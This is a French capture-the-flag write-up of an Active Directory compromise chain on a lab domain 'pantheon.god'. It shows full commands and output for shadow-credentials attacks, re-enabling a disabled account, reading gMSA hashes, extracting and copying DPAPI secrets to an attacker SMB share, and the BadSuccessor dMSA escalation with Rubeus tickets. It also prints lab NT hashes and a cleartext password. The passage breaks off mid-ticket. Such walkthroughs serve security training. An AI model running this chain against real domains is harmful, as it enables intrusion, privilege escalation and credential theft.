

- Avec `rusthound` qui est un injestor bloodhound fait en rust on peut récupérer les information relative aux domain pour les lire sur `bloodhound` (`boodhound.py` ne fonctionne pas ici)
    
    ```
    rusthound -d "$DOMAIN" -u "$USER"@"$DOMAIN" -p "$PASSWORD" --zip --ldaps --adcs --old-bloodhound
    ---------------------------------------------------
    Initializing RustHound at 00:14:53 on 06/23/25
    Powered by g0h4n from OpenCyber
    ---------------------------------------------------
    
    [2025-06-22T22:14:53Z INFO  rusthound] Verbosity level: Info
    [2025-06-22T22:14:53Z INFO  rusthound::ldap] Connected to PANTHEON.GOD Active Directory!
    [2025-06-22T22:14:53Z INFO  rusthound::ldap] Starting data collection...
    [2025-06-22T22:14:53Z INFO  rusthound::ldap] All data collected for NamingContext DC=pantheon,DC=god
    [2025-06-22T22:14:53Z INFO  rusthound::ldap] All data collected for NamingContext CN=Configuration,DC=pantheon,DC=god
    [2025-06-22T22:14:53Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
    [2025-06-22T22:14:53Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
    ⢀ Parsing LDAP objects: 52%                                                                                                                                 [2025-06-22T22:14:53Z INFO  rusthound::modules::adcs::parser] Found 11 enabled certificate templates
    [2025-06-22T22:14:53Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
    [2025-06-22T22:14:53Z INFO  rusthound::json::checker] Starting checker to replace some values...
    [2025-06-22T22:14:53Z INFO  rusthound::json::checker] Checking and replacing some values finished!
    [2025-06-22T22:14:53Z INFO  rusthound::modules] Starting checker for ADCS values...
    [2025-06-22T22:14:53Z ERROR rusthound::modules::adcs::checker] Couldn't connect to server http://pantheon-dc01.pantheon.god/certsrv/, please try manually and check for https access if EPA is enable.
    [2025-06-22T22:14:53Z INFO  rusthound::modules] Checking for ADCS values finished!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 35 users parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 69 groups parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 2 computers parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 5 ous parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 1 domains parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 1 cas parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 33 templates parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 2 gpos parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] 21 containers parsed!
    [2025-06-22T22:14:53Z INFO  rusthound::json::maker] .//20250623001453_pantheon-god_rusthound.zip created!
    
    RustHound Enumeration Completed at 00:14:53 on 06/23/25! Happy Graphing!
    ```
    

On vois que notre utilisateur hercule est membre du groupe `OLYMPE-IMORTAL-HEROS` et que ce groupe à un generic  write sur plusieurs utilisateur fessant tous partie du groupe `TITANTS-BANNIS`



Un des utilisateur de ce groupe est particulièrement intéressant car il fais partie du groupe `remote desktop users` et du groupe `remote management users` deux groupes ayant un droit d’accès a distance aux machine windows du domaine,


Étant donner qu’il y a un `ADCS` sur le `DC`, on peut récupérer un `TGT` et le hash de l’utilisateur `cronos` avec l’attaque `shadowcredential`  avec `bloodyAD+gettgtpkinit.py` ou simplement avec `certipy`

Mais dans les deux cas on ce retrouve avec l’erreur suivante :

`KDC_ERR_CLIENT_REVOKED Detail: "Client’s credentials have been revoked"`

```
[hercule@pantheon.god][Jun 23, 2025 - 00:48:57 (CEST)] exegol-pantheon_wu bloodhound # certipy shadow auto -u "$USER"@"$DOMAIN" -p "$PASSWORD" -account "$TargetUser"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'cronos'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e9474057-1a78-2009-8229-bacb5681ca2d'
[*] Adding Key Credential with device ID 'e9474057-1a78-2009-8229-bacb5681ca2d' to the Key Credentials for 'cronos'
[*] Successfully added Key Credential with device ID 'e9474057-1a78-2009-8229-bacb5681ca2d' to the Key Credentials for 'cronos'
[*] Authenticating as 'cronos' with the certificate
[*] Using principal: cronos@pantheon.god
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[*] Restoring the old Key Credentials for 'cronos'
[*] Successfully restored the old Key Credentials for 'cronos'
[*] NT hash for 'cronos': None
```

```
[hercule@pantheon.god][Jun 23, 2025 - 00:42:58 (CEST)] exegol-pantheon_wu bloodhound # bloodyAD -s --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add shadowCredentials $TargetUser
[+] KeyCredential generated with following sha256 of RSA key: 4c6845977d25d5faa2c085eb0b4125977399c5f9905176713b85257adc71d61f
No outfile path was provided. The certificate(s) will be stored with the filename: zgmkD2Xx
[+] Saved PEM certificate at path: zgmkD2Xx_cert.pem
[+] Saved PEM private key at path: zgmkD2Xx_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem zgmkD2Xx_cert.pem -key-pem zgmkD2Xx_priv.pem pantheon.god/cronos zgmkD2Xx.ccache
[hercule@pantheon.god][Jun 23, 2025 - 00:43:29 (CEST)] exegol-pantheon_wu bloodhound # gettgtpkinit.py -cert-pem zgmkD2Xx_cert.pem -key-pem zgmkD2Xx_priv.pem pantheon.god/cronos zgmkD2Xx.ccache
....
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_CLIENT_REVOKED Detail: "Client’s credentials have been revoked"
[hercule@pantheon.god][Jun 23, 2025 - 00:44:05 (CEST)] exegol-pantheon_wu bloodhound #
```

On comprend que le compte est desactiver et qu’il va falloire d’abord le réactiver affin de pouvoir l’utiliser, ce qui est possible avec `bloodyAD` par exemple :

```
[hercule@pantheon.god][Jun 23, 2025 - 01:19:39 (CEST)] exegol-pantheon_wu bloodhound # bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" remove uac $TargetUser -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from cronos's userAccountControl
```

- Ainsi maintenant que le compte est réactiver, on peut l’utiliser pour effectuer notre attaque `shadowcredentials` et récupérer le hash de cette utilisateur
    
    ```
    
    [hercule@pantheon.god][Jun 23, 2025 - 01:19:41 (CEST)] exegol-pantheon_wu bloodhound # faketime "$(rdate -n $IP -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
    [hercule@pantheon.god][Jun 23, 2025 - 01:19:54 (CEST)] exegol-pantheon_wu bloodhound # certipy shadow auto -u "$USER"@"$DOMAIN" -p "$PASSWORD" -account "$TargetUser"
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Targeting user 'cronos'
    [*] Generating certificate
    [*] Certificate generated
    [*] Generating Key Credential
    [*] Key Credential generated with DeviceID '4db42bb3-8180-1c94-cfd4-104cb704ffea'
    [*] Adding Key Credential with device ID '4db42bb3-8180-1c94-cfd4-104cb704ffea' to the Key Credentials for 'cronos'
    [*] Successfully added Key Credential with device ID '4db42bb3-8180-1c94-cfd4-104cb704ffea' to the Key Credentials for 'cronos'
    [*] Authenticating as 'cronos' with the certificate
    [*] Using principal: cronos@pantheon.god
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'cronos.ccache'
    [*] Trying to retrieve NT hash for 'cronos'
    [*] Restoring the old Key Credentials for 'cronos'
    [*] Successfully restored the old Key Credentials for 'cronos'
    [*] NT hash for 'cronos': d903644e45874322d8403de4c267ba64
    [hercule@pantheon.god][Jun 23, 2025 - 01:19:59 (CEST)] exegol-pan
    ```
    

On confirme qu’il peut bien utiliser win-rm sur le dc


- Une fois connecter en tant que cronos, on remarque un répertoire peux habituel `coliseum` qui appartient à l’utilisateur `athena` et sur le quel nous avons tout les droits :
    
    ```
    *Evil-WinRM* PS C:\Users\cronos\Documents> ls /
    
        Directory: C:\
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         6/21/2025   7:38 PM                coliseum
    d-----         6/10/2025   4:36 AM                inetpub
    d-----          4/1/2024   7:02 AM                PerfLogs
    d-r---         6/10/2025   4:21 AM                Program Files
    d-r---          4/1/2024   8:16 AM                Program Files (x86)
    d-----         6/21/2025   7:37 PM                shares
    d-r---         6/22/2025  11:26 PM                Users
    d----l         6/21/2025   7:05 PM                vagrant
    d-----         6/21/2025   7:31 PM                Windows
    d-----         6/10/2025   2:15 PM                Windows.old
    
    *Evil-WinRM* PS C:\Users\cronos\Documents>
    ```
    
    ```
    *Evil-WinRM* PS C:\coliseum> icacls "C:/coliseum/"
    C:/coliseum/ BUILTIN\Administrators:(F)
                 PANTHEON\cronos:(OI)(CI)(F)
                 NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                 BUILTIN\Administrators:(I)(OI)(CI)(F)
                 BUILTIN\Users:(I)(OI)(CI)(RX)
                 BUILTIN\Users:(I)(CI)(AD)
                 BUILTIN\Users:(I)(CI)(WD)
                 PANTHEON\athena:(I)(F)
                 CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    ```
    
    ```
     $path = "C:\coliseum"
    (Get-Acl -Path $path).Access
    ...
    FileSystemRights  : FullControl
    AccessControlType : Allow
    IdentityReference : PANTHEON\cronos
    IsInherited       : False
    InheritanceFlags  : ContainerInherit, ObjectInherit
    PropagationFlags  : None
    ...
    FileSystemRights  : FullControl
    AccessControlType : Allow
    IdentityReference : PANTHEON\athena
    IsInherited       : True
    InheritanceFlags  : None
    PropagationFlags  : None
    
    FileSystemRights  : 268435456
    AccessControlType : Allow
    IdentityReference : CREATOR OWNER
    IsInherited       : True
    InheritanceFlags  : ContainerInherit, ObjectInherit
    PropagationFlags  : InheritOnly
    
    ```
    
- A l’intérieur un fichier `ColiseumTasks.ps1` vide sur le quel on à un contrôle totale et qui semble être executer par une tâche planifier
    
    ```
    *Evil-WinRM* PS C:\coliseum> ls
    
        Directory: C:\coliseum
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         6/21/2025   7:38 PM              0 ColiseumTasks.ps1
    
    *Evil-WinRM* PS C:\coliseum>
    ```
    
    ```
     $path = "C:\coliseum\ColiseumTasks.ps1"
    (Get-Acl -Path $path).Access
    
    FileSystemRights  : FullControl
    AccessControlType : Allow
    IdentityReference : PANTHEON\cronos
    IsInherited       : True
    InheritanceFlags  : None
    PropagationFlags  : None
    ```
    

……………..

Une fois connecter en tant que athena, on peux upload `GMSAPasswordReader.exe` pour obtenir le hash du compte `svc_thunderB$`

```
*Evil-WinRM* PS C:\Users\cronos\Documents> cd "C:/coliseum/"
*Evil-WinRM* PS C:\coliseum> upload /workspace/writeup/GMSAPasswordReader.exe

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Uploading /workspace/writeup/GMSAPasswordReader.exe to C:\coliseum\GMSAPasswordReader.exe

Data: 139944 bytes of 139944 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\coliseum>
```

```
PS C:\coliseum> .\GMSAPasswordReader.exe --AccountName 'svc_thunderB$'
Calculating hashes for Current Value
[*] Input username             : svc_thunderB$
[*] Input domain               : PANTHEON.GOD
[*] Salt                       : PANTHEON.GODsvc_thunderB$
[*]       rc4_hmac             : 64BD4596337D081643C878A6CD976307
[*]       aes128_cts_hmac_sha1 : 2982C32362FBCC3C8327BE65974A93CF
[*]       aes256_cts_hmac_sha1 : 7E38C98D4BCAAC2D749C4E3111A3B9222FBF174D6B410B5210282AB9D884324C
[*]       des_cbc_md5          : C1168CC4E04A7A89

PS C:\coliseum>
```

On voit avec bloodhound que l’on à un génericWrite sur tout les Dieux à l’exeption de `Zeus` l’Administrateur du domain. Le dieux avec les droit les plus intérrésant semble être hades qui à un genericAll sur l’OU ENFERS et les enfant de cette dernière.

```
[svc_thunderBpantheon.god][Jun 24, 2025 - 04:05:14 (CEST)] exegol-pantheon_wu bloodhound # certipy shadow auto -u "$USER"@"$DOMAIN" -hashes ":$NT_HASH" -account "$TargetUser"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'hades'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '6f54e71b-36b6-d118-f042-2279e54006d6'
[*] Adding Key Credential with device ID '6f54e71b-36b6-d118-f042-2279e54006d6' to the Key Credentials for 'hades'
[*] Successfully added Key Credential with device ID '6f54e71b-36b6-d118-f042-2279e54006d6' to the Key Credentials for 'hades'
[*] Authenticating as 'hades' with the certificate
[*] Using principal: hades@pantheon.god
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'hades.ccache'
[*] Trying to retrieve NT hash for 'hades'
[*] Restoring the old Key Credentials for 'hades'
[*] Successfully restored the old Key Credentials for 'hades'
[*] NT hash for 'hades': ead49bdbe3311143eeafbcb14d8ae126
```

- Avec `WinPEAS`, on trouve qu’il y a des credentials dans la `dpapi`
    
    ```bash
    cmdkey /add:pantheon.god /user:hera /pass:"Qu33n0fG0ds!2025"
    ```
    
    ```bash
    ls "$env:APPDATA\Microsoft\Credentials" -Fo
    ls "$env:APPDATA\Microsoft\Protect" -Fo
    ls C:\Users\hades\AppData\Roaming\Microsoft\Credentials\ -Fo
    ls C:\Users\hades\AppData\Roaming\Microsoft\Protect\ -Fo -Re
    ```
    
    ```bash
    Remove-Item "$env:APPDATA\Microsoft\Protect\*" -Fo
    Remove-Item "$env:APPDATA\Microsoft\Credentials" -Fo
    Remove-Item "C:\Users\hades\AppData\Roaming\Microsoft\Credentials\*" -Fo
    Remove-Item "C:\Users\hades\AppData\Roaming\Microsoft\Protect\*" -Fo 
    
    ```
    
    ```bash
    #server
    smbserver.py -smb2support share .
    #Client
    copy "C:\Users\hades\AppData\Roaming\Microsoft\Credentials\B220D0D6995B10FC4B5718D982AB1B0A" \\192.168.56.1\\share\\credential
    copy "C:\Users\hades\AppData\Roaming\Microsoft\Protect\S-1-5-21-20107180-75155701-1075408035-1133\e2fb222d-1757-4b92-9fd7-094e19c608f7" \\192.168.56.1\\share\\masterkey
    ```
    
    ```bash
    dpapi.py credential -file credentials -key masterkey
    ```
    

Avec un genericALL sur une OU il y a un `Windows Server 2025` une vulnérabilité récente au moment ou j’écris ce writeup du nom de `BadSuccessor` peut être exploiter. 

Pour des raison que j’ignore elle ne peux pas êter exploiter directement sur le `DC`, mais on peux l’exploiter sur une machine jointe au domaine, ce qui tombe bien car dans notre environnement il y a une autre machine `pantheon-enfers.pantheon.god` à la quel `hades` peut ce connecter à distance.

Le problème c’est qu’il va nous falloir une session `RDP` pour effectuer cette exploit. Mais nous n’avons pas le mdp de hades. 
Le hash pourrait être utiliser pour ce connecter en RDP si il été administrateur local de la machine, ce qui n’est pas le cas. 
Cependant ce dernier à un généricALL sur tout les objet de l’OU `ENFERS` dont `orphee` qui peut rdp sur la machine `pantheon-enfers.pantheon.god`.

On donne donc un genericALL sur une `OU` à orphee pour qu’il puisse exploiter `badsuccessor` à la place de hades.

```bash
hades@pantheon.god][Jun 26, 2025 - 02:38:28 (CEST)] exegol-pantheon_wu bloodhound # stobject "OU=ELYSEE,OU=ENFERS,DC=PANTHEON,DC=GOD"
TargetObject set to 'OU=ELYSEE,OU=ENFERS,DC=PANTHEON,DC=GOD'
[hades@pantheon.god][Jun 26, 2025 - 02:39:13 (CEST)] exegol-pantheon_wu bloodhound # stcontrolledprincipal orphee
ControlledPrincipal set to 'orphee'
```

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p ":$NT_HASH" add genericAll $TargetObject $ControlledPrincipal
```

Il va nous falloire compiler le binaire `SharpSuccessor.exe` et `Rubeus.exe` dans sa version 2.3.3 minimum : 

[https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)

[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

```
*Evil-WinRM* PS C:\Users\hades\Documents> upload /workspace/writeup/exploit/SharpSuccessor.exe
*Evil-WinRM* PS C:\Users\hades\Documents> upload /workspace/writeup/exploit/Rubeus.exe
```

Premièrement on va crée un un dMSA sur l’OU ENFERS sur la quel nous avons un droit `createChild`avec `SharpSuccessor.exe` 

```
PS C:\Users\hades\Desktop> .\SharpSuccessor.exe add /impersonate:Administrator /path:"OU=ELYSEE,OU=ENFERS,DC=PANTHEON,DC=GOD" /account:orphee /name:pwned_dMSA
   _____ _                      _____
  / ____| |                    / ____|
 | (___ | |__   __ _ _ __ _ __| (___  _   _  ___ ___ ___  ___ ___  ___  _ __
  \___ \| '_ \ / _` | '__| '_ \\___ \| | | |/ __/ __/ _ \/ __/ __|/ _ \| '__|
  ____) | | | | (_| | |  | |_) |___) | |_| | (_| (_|  __/\__ \__ \ (_) | |
 |_____/|_| |_|\__,_|_|  | .__/_____/ \__,_|\___\___\___||___/___/\___/|_|
                         | |
                         |_|
@_logangoins

[+] Adding dnshostname pwned_dMSA.pantheon.god
[+] Adding samaccountname pwned_dMSA$
[+] Administrator's DN identified
[+] Attempting to write msDS-ManagedAccountPrecededByLink
[+] Wrote attribute successfully
[+] Attempting to write msDS-DelegatedMSAState attribute
[+] Attempting to set access rights on the dMSA object
[+] Attempting to write msDS-SupportedEncryptionTypes attribute
[+] Attempting to write userAccountControl attribute
[+] Created dMSA object 'CN=pwned_dMSA' in 'OU=ELYSEE,OU=ENFERS,DC=PANTHEON,DC=GOD'
[+] Successfully weaponized dMSA object
```

```
PS C:\Users\hades\Desktop> .\Rubeus.exe tgtdeleg /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3

[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/pantheon-dc01.pantheon.god'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: HMqUhWU8WupaHB+glfk5VQUV9llzHa876Aa0XuGFLPo=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDFBBTlRIRU9OLkdPRKIhMB+gAwIBAqEYMBYbBmtyYnRndBsMUEFOVEhFT04uR09Eo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDaY/IXr0VvYXbwRSdf+G7rmOdF6WwntJQoDum/IbgJIZlsnJuObYMvrTZ0DukrhXP6pp4dbIoiidATPFAzwsy9pYbmtUHnvCm3xabKjxeRbQq9Xo9tKOX2qhqJvcElWSCkVDA0KBNY/bs4WCmF1ACKUoDYIHszQfCUUY7JVTpLmO7olQfNnpyv4NA/tOpfMmo4lXCJufIy81c76OtKpk2g46lhJbcWVZaE6y/21C9bahCQLC3Om/5i36lQS5mlE5P61zXy2K2EjOA+Q9mcvfTumgWApaQrDPP2z5dYmhcB5TMJN+5IZgxL/xLu3BS367V+0AKGhz9SREUhpWO7BSyvGb/ZlgE3hRcc3R14YDVOWJeDqhVr6/D+6C4+NaFCWsN4VKN8aLLFwSCU97Vkdvclqs08f4iZ54CR6I59UW82iPa1O5K4bX+O9kGd60t/h1+mHnmKt4MN8ORlLlqDzDen1IAdn4RS1/IHg0FySO1OtqGxY653iesKbbfIUkAiapfGKlapDD03JbduODmZCsCoJ9aS31n1+Qob3CgEO3rOjyKp2uHsaYV7jrxbeIkiyXB3AH/kLvGNhkNfZCj2MEWqoS7R+BIV7KTPUD25NH3pb/GKZzHY4ua22J2ipF/Wl6CGVb2JTzw8Te2/Jf6geVnBsQpV+JkPYC32xZEr+za2o2u0QytniaxSZXqVykhZjCXMPmi4RA20Jar22PRVa6YTKkv1yt2/DAepugQEEHC+/StwMANmXHF7YbzlQSMeUQCmYV2wv+/fmFHp2n59F9evY8DAXWid8QUG9wGEAURvDbAsT7D0EcBYBqXL2Kj2LoKplVeif7Yc/WIPyiXE8EHl75MFB+isIdTUcZkLrETlh6sUR1ei7HvS4Q4KPjN9viFS5IutxMwWmiYwNbtTkPaPZ7B4o+GuX5p5oMYzYeI/eQ/vQ7LERSv3QHsr0L2kqBS4HPU+kdRxLy6c/VDjtESdDAb7vQjfdpgyBoAyZFfHmBK6bIk0H4uucI273xyVZFbZ0zWy0EHzrm5kIyaQL2ECLmHr8n2gwpMQ7trN4sbf0IeAV8WM20+pQ3D5Arc1CceH+IL1fIoUbErRbbnTSNI4qb620y7GiJ9MzVL+z04prviulKeKGEDWzu7I3h7/Gi7oygDsQmrMlUvXLrT0nVyuMMLP1WZBJI1JBXlDkziQckwuoArGy1ZvhyHUb0fyplTW05Rl1YBdcegbn/eLgD/xt558H1KDdvhkoscVlKEvNKTFjbcJkiESJrIreUP5vaElcg1FV6JCuFXZCgF+p1GZS/n7YGSwOJ9f+PPeYrr4DejNIPmfzdXlx34JfsXzQUaBOEotfUQnUU9eRkzSZtp09/SZvs5HTTKBrVc8ySrWfccpHKsqYknIiAiepCY2ZpjzgUjSBLLOl1Brii8D4uH6MJBkQrAUso4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQgFLSEDL2+vdNw2peo8khxhS1IS+pJa2UBSm2WMU3CzyChDhsMUEFOVEhFT04uR09EohIwEKADAgEBoQkwBxsFaGFkZXOjBwMFAGChAAClERgPMjAyNTA2MjExMTU3MjNaphEYDzIwMjUwNjIxMjE1NjM3WqcRGA8yMDI1MDYyODExNTYzN1qoDhsMUEFOVEhFT04uR09EqSEwH6ADAgECoRgwFhsGa3JidGd0GwxQQU5USEVPTi5HT0Q=
```

```
PS C:\Users\hades\Desktop> .\Rubeus.exe asktgs /targetuser:pwned_dMSA$ /service:krbtgt/pantheon.god /opsec /dmsa /nowrap /ptt /ticket:doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDFBBTlRIRU9OLkdPRKIhMB+gAwIBAqEYMBYbBmtyYnRndBsMUEFOVEhFT04uR09Eo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDY0lRuxN5TRUtZZ5p1HdpRVdHLfSSQMtI1oYS2Dk1zJjFJirGGJAHokqeRc0dQrevSqBiNQFZ5ZF6K6fEc/WLKpUPp6g+iZHjMNkoFdVLi3llL8bsmNLIv3xEiGWv7vBWXFDBrpWx6fP2XCaPnEjZAqrZTg/kdjtOnOwqVWx0jFERU5n/+d7U2iwq1B2gPpGzMIBeD0TiYk0pnXvBQhQ/I3VlmZKQQ2+ko5DyTwEmvJ9b9Il+2Y7MvpblzS7ZOKzGuNpDvAl6+L80e7dNjz+GCkxtgN71/gxfDEgQXW3E9JXmXiE5W0cZjbEcmPQd0lMag1Jjui2uRmpABVh9wHq35QuN5bWDjseFBLPHGc0/H9SQ1DQdWk83H/UsUdQ0BRqdOLXAig1uwVDTr0eNP7trmRU+OM8hYl2n6/eqnsb0GQ6OyuixBq9nPQu8xC7a5lg3OgICSpsuyzIh0EBWVvNRYgSz2kFwQgKrS6SyrOQgzTXjC/iN1qZn3FGHF2xCFunffmcT3NLXaVnLAEic4RjhBR5GPAhRx4fcAF12ywNoOBX0e9ZfzEKgyz8vOuXa86LQeZpjWiRH6XPgy6d4rISvUtaqysDxFXrT0SKjleahtwu9jjLPOtQyhKMRRjEPaP3CfCs9o4qE6zxPi84iM3CXMYRpFKxDZLSytKFbMDs57h+FELwVlldnDAx28R0iRPr7cEB9amSo7E153tNIuTCc9Pi+zLlzp5gKEmIfn3lPX85XlZgP6Xcb+MrUszzZjQSftTOR6iKhtBqmjqcg5PqfeHNf37ozTrC2y4QEmgdk6bbtfPFFrgPVsDBox3KxQ9RyehC7flS1lmMGqXkiuVlW7hf5MmK8nOd+NT3Fc3Ru0BOk11HP/4Ey6MS4YYl+DiijwzpnsV7wsexV4ZeUMpUZsQML20Oz4zGJdFYZbDvNex7UNXTF67GEBKUZ6DCaI5u1wu4rpnio980qWHGGvZpffAgMMN0/75OrxRx7A3ex0JziJGKl7mYx4G9cE4TqPULBucWRbFXrlye66ErJynU32q+OkUZT8T73RCbOQiP0fF2sJn8jibDQNBpjpWsihZ6/dpiGE5VDvM8z/bfWIzW9fdngXZdy4AKZBWrkGqAbDZ4m3QynqeQN17Hddr8IduuRZtLY14EVkAQb/as7RtGPVsezAkWFulYdEWN+nvdg/lcAXI0H1oD1tqjnKggsPn7fmviRON3mhoc06/6e014ZQqC0v2UsyX8THF39b5XPbKsMxpH0nB02ylkpoCXpMBaNvS5qgZz8s9PkZpO6zOCU6jXZFTy/cP7rYdSvJCwP+aunMNCMikUVv3yplqvDwNVeSVGYqGjh7b7TFNhW2e7TWrdwjh0y/HyOF7r9W/hyYdq3/KCUwr/VAvc0AssKxIITGVu40Kqbh0V8CDn4lfyTIc/vbYMOcuo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQgB1IFfI8U0q+NLYeGtCaKV+tZ869EwB13phVfpJdvG4ShDhsMUEFOVEhFT04uR09EohIwEKADAgEBoQkwBxsFaGFkZXOjBwMFAGChAAClERgPMjAyNTA2MjExOTM5MDJaphEYDzIwMjUwNjIyMDUzOTAxWqcRGA8yMDI1MDYyODE5MzkwMVqoDhsMUEFOVEhFT04uR09EqSEwH6ADAgECoRgwFhsGa3JidGd0GwxQQU5USEVPTi5HT0Q=

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building DMSA TGS-REQ request for 'pwned_dMSA$' from 'orphee'
[+] Sequence number is: 1951566350
[*] Using domain controller: pantheon-dc01.pantheon.god (192.168.56.11)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIF6DCCBeSgAwIBBaEDAgEWooIE6jCCBOZhggTiMIIE3qADAgEFoQ4bDFBBTlRIRU9OLkdPRKIhMB+gAwIBAqEYMBYbBmtyYnRndBsMUEFOVEhFT04uR09Eo4IEojCCBJ6gAwIBEqEDAgECooIEkASCBIypzjKyr705ba1b+W14U/2LJKiktg4GXtKMbdiEq2z/bSxUbJL9Bc22zMhYutgY4iJCn8bWJAjamwN2RcV2NV9c8SyDaJXKUY8CGOgG2+2Un33EKtQDSN5xD2VTrKBbgJJYmNyHZQinXvGxRdnOUDi8ANLCXDloIK1Q/yOBXpxPJkIL7iEJYZocQrqSjMjt6nFccwMIQ/QuCrSRF2c5mdOTxgBF80kRSl4D9eVn/g2bEXiuKy22Pf+idzQpnI9cFx11CkJTSgPHj4EjM7tXgPUr8zM9BxgbBDPusqyq0dz5ZqcLlrFDlrdF8PHt/QIOt2rVrfAkBlItUy9GATCzqfmNP+9G+C79yNKeS7tsKMkpvnlQ3w7ZWhlKavu6wjTz/kHbR2V7EPhF6gjT8ih7hmzH92alK74IAtgh/2je3lYsfdFNNcXqwRc3vhbpXJmrA83WZwWDkMP4rZlAcONiWDwhFT0DH0Z3zYXgzyozJ89FtLY3zluz1SjJbetmAX3PUmL3LQUvlQaQfZbxdMy3L5mf7j2bYrDH6S2oaiCDI4s/Gu4jfH7ppiL4xD6lEWAC8COpoZGGL3lZcAJ3onj3Qiha9p1G8y1J3QOPLZMa28DvOXrAdTHsPJKp9HIuoaglk4VhorqnfIFLgnVm2kHbS1ZFAfEQM/Ds8XG54XyUs0iKcJBBy+5p1gvMMPOx8/rEb/a6PWM8rlv3KU+zuXI5/Ef0tE98r+52AdkHz9hsuPvfctjqDnA/xp9vt0UA6lnAtE8Gx